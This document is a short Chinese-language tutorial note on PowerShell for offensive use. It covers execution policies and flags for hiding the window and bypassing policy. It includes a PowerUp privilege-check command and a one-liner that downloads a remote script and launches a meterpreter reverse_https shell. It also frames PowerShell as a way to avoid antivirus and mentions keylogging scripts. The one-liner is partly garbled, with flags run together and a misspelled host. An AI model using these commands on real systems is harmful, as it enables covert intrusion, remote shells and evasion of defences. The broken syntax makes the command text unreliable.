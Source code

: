 ```yaml
---
title: powershell
tags: tools
---
```


# 1.powershell脚本特点

在内存中运行 不需要写入磁盘
可以远程执行 几乎不触发杀毒软件
cmd.exe运行通常会被阻止,但是powershell运行通常不会被阻止
可以用于管理AD

# 2.执行策略 

powershell默认情况下不能执行脚本
`Get-Host` 查询当前ps版本

![image-20220204235652182](https://raw.githubusercontent.com/aloha1024/image/main/img/image-20220204235652182.png)

`Get-ExecutionPolicy`查询当前策略

![image-20220204235754058](https://raw.githubusercontent.com/aloha1024/image/main/img/image-20220204235754058.png)

powershell脚本策略有四种

1.`Restricted `

脚本不能被执行(默认)

2.`RemoteSigned `

在本地创建的脚本可以运行,从网上下载的不能运行(持有数字证书签名的除外)

3.`AllSigned `

仅当脚本由受信任的发布者签名时才能运行

4.`Unrestricted `

允许所有脚本运行

使用`Set-ExecutionPolicy <policy name>`设置powershell 执行策略

```powershell
powershell.exe -exec bypass -Command "& (Import-Module C:\PowerUp.ps1; Invoke-Allchecks)"
```

```powershell
powershell.exe -ExecutionPolicy Bypass-WindowsStyle Hidden-NoProfile-NonIIEX(New-ObjectNet.WebClient).DownloadString("http://localhoat:8080"); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.1.1 -Lport 80
```



 

`-ExecutionPlicy Bypass (-Exec Bypass)`

绕过执行安全策略(默认情况下ps的安全策略规定ps不能运行命令和文件)

`-WindowStyle Hidden (-W Hidden)`

隐藏窗口

`-NonInteractive (-NonI)`

非交互模式 PowerShell 不为用户提供交互式的提示。

`-NoProfile(-NoP)PowerShell `

控制台不加载当前用户的配置文件。

`-noexit`

执行后不退出Shell。这个参数在使用键盘记录等脚本时非常重要。

`-NoLogo`

启动不显示版权标志的PowerShell。
